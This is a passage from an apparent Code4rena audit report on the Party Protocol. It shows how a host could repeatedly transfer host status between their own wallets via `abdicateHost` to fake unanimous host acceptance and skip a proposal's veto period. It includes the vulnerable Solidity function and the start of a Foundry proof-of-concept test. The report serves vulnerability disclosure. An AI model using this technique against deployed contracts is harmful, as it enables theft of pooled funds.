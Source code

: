 This attack has a very low cost and a very high potential impact. If a malicious proposal is crafted in the same way used by the Tornado Cash attacker using hidden `CREATE2` and `SELFDESTRUCT` operations, then it is entirely feasible that it would meet the voting threshold, as many voters may not be savvy enough to spot the red flags.

### Proof of Concept

`PartyGovernance#abdicateHost` is a function that allows a host to renounce their host privileges, and transfer them to another address.

```solidity
File: contracts\party\PartyGovernance.sol

457:     /// @notice Transfer party host status to another.
458:     /// @param newPartyHost The address of the new host.
459:     function abdicateHost(address newPartyHost) external {
460:         _assertHost();
461:         // 0 is a special case burn address.
462:         if (newPartyHost != address(0)) {
463:             // Cannot transfer host status to an existing host.
464:             if (isHost[newPartyHost]) {
465:                 revert InvalidNewHostError();
466:             }
467:             isHost[newPartyHost] = true;
468:         } else {
469:             // Burned the host status
470:             --numHosts;
471:         }
472:         isHost[msg.sender] = false;
473:         emit HostStatusTransferred(msg.sender, newPartyHost);
474:     }
```

<https://github.com/code-423n4/2023-10-party/blob/main/contracts/party/PartyGovernance.sol#L457>

This can be done at any stage in the life cycle of a proposal. This means that a host can `accept` a proposal, incrementing the `numHostsAccepted` value for that proposal, then transfer the host status to another wallet that they control (that has non-zero voting power) and `accept` again, incrementing `numHostsAccepted` for a second time. This process can be repeated as many times as necessary until `numHostsAccepted` is equal to the total number of hosts `numHosts`. Once the proposal reaches the required vote threshold, the veto period will be skipped, despite only one host accepting.

The following foundry test shows the process described above. Copy and paste it into PartyGovernanceTest.t.sol to run.

```solidity
    function test_maliciousHost() public {
        // Create users
        PartyParticipant alice = new PartyParticipant();
        PartyParticipant bob = new PartyParticipant();
        PartyParticipant chad = new PartyParticipant();
        PartyParticipant aliceAltWallet = new PartyParticipant();

        // Create party
        uint16 passThresholdBps = 5100;
        (
            Party party,
            IERC721[] memory preciousTokens,
            uint256[] memory preciousTokenIds
        ) = partyAdmin.createParty(
                partyImpl,
                PartyAdmin.PartyCreationMinimalOptions({
                    host1: address(alice),
                    host2: address(bob),
                    passThresholdBps: passThresholdBps,
                    totalVotingPower: 151,
                    preciousTokenAddress: address(toadz),
```